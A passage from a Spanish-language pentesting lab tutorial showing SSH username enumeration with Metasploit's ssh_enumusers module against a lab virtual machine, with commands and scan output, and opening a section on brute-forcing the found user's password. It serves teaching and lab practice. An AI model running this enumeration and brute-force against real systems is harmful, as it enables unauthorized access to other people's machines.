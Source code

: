 
- Es importante aquí resaltar que nos hemos asegurado de que el usuario `vagrant` esté en el diccionario para el éxito de este laboratorio. Sin embargo, en un escenario real, es muy probable que Ud. tenga que construir una lista de usuarios basados en las políticas de creación de usuario de la entidad sobre la cual se esté realizando la prueba de pentesting, y ello puede implicar hacer uso de Ingeniería Social.

### 3.2. Enumeración de Usuarios con Metasploit

- Para enumerar los usuarios habilitados en el servicio SSH en la máquina target, vamos a correr un scanner de enumeración con la herramienta Metasploit.

    ```bash
    msfconsole -q
    use auxiliary/scanner/ssh/ssh_enumusers
    set RHOSTS 10.0.2.15
    set USER_FILE /path/to/usernames.txt
    run
    ```

- **Explicación**: Este módulo de Metasploit permite enumerar usuarios válidos en el servicio SSH, utilizando una lista de usuarios comunes. La detección de nombres de usuario es esencial para los siguientes intentos de autenticación.

    ```bash
    msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.0.2.15
    RHOSTS => 10.0.2.15
    msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /home/user/Downloads/top-usernames-shortlist.txt
    USER_FILE => /home/user/Downloads/top-usernames-shortlist.txt
    msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

    [*] 10.0.2.15:22 - SSH - Using malformed packet technique
    [*] 10.0.2.15:22 - SSH - Checking for false positives
    [*] 10.0.2.15:22 - SSH - Starting scan
    [+] 10.0.2.15:22 - SSH - User 'vagrant' found
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```

- En este caso, estamos usando el diccionario `top-usernames-shorlist.txt` localizado en la carpeta `SecLists\Usernames` del repositorio de Daniel Missler ([Link](https://github.com/danielmiessler/SecLists/tree/master/Usernames)).

- Vemos que el script de Metasploit ha encontrado un usuario válido (`vagrant`), por lo que ahora es cuestión de encontrar la contraseña de este usuario para poder tener acceso vía ssh a la máquina target.

- Dado que no hay restricciones en los intentos de autenticación, podemos realizar un ataque de fuerza bruta sobre los posibles passwords del usuario `vagrant`.

### 3.3. Ataque de Fuerza Bruta en SSH

- Una vez identificados los usuarios válidos, se utiliza un ataque de fuerza bruta para intentar obtener contraseñas.

